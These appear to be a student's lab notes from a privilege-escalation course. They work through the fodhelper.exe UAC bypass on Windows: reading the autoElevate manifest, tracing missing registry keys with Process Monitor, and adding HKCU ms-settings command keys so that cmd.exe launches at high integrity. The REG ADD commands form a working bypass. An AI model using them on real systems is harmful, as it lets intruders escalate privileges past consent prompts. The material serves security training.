






### 18.2.3.2 Exercise
#### 1. Log in to your Windows client as the admin user and attempt to bypass UAC using the application and technique covered above

1. Examine fodhelper.exe with sigcheck.exe (From [SysInternalsSuite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite))

   ```powershell
   c:\Tools\privilege_escalation\SysinternalsSuite\sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
   ```

   Found these settings in the manifest:
   

   - `RequestedExecutionLevel` - The application requires admin level access to run
   - `autoElevate` - Allows the executable to auto-elevate to high integrity without prompting the admin user for consent

2. Monitor the fodhelper tool with Process Monitor (From [SysInternalsSuite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)) to find missing registry keys we might be able to modify.

   - Use the filters to reduce out:
     - By Process Name `Process Name is fodhelper.exe`
     - By Registry edits `Operation contains Reg`
     - By Registry keys that don't exist `Result contains NAME NOT FOUND`
       
   - This yields results for an 'Open' call to ms-settings entries, which are further refined to notice that it is access HKCU first, then HKCR, which shows the potential for program execution by fodhelper since we have access to HKCU entries.

3. I hijack the fodhelper's process by creating the missing key in HKCU and leaving the entry blank

   - `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command`
   - I then re-run fodhelper.exe and add back the result filter to see how adding that key changes things `Result contains NAME NOT FOUND` as well as `Path contains ms-settings\Shell\Open\command`
   - I clear the existing Process Monitor results and restart fodhelper.exe, thencheck ProcMon to find a new 'NAME NOT FOUND' entry with `...\Open\command\DelegateExecute`.  
   - This would point to a COM object, but I don't want that, so I create this key and leave it empty.  `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ`
   - To verify this change, replace the I replace `NAME NOT FOUND` keywords with `SUCCESS` in the ProcMon filters, clear the results, then re-run fodhelper and see SUCCESS entries for the newly added DelegateExecute key.
     
   - I notice also that there is an entry for ..\\(Default) now showing as well.  Because DelegateExecute was empty, fodhelper will instead try to execute a default command in that registry entry.  This value is set to null by default, however, so nothing happens....yet.
   - I set the empty (Default) value with a value of your own, for instance, cmd.exe `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`

4. Exploit Successful

   - I run fodhelper.exe again and a cmd shell will appears.
     
   - I verify the integrity level is set to 'High' with `whoami /groups`
     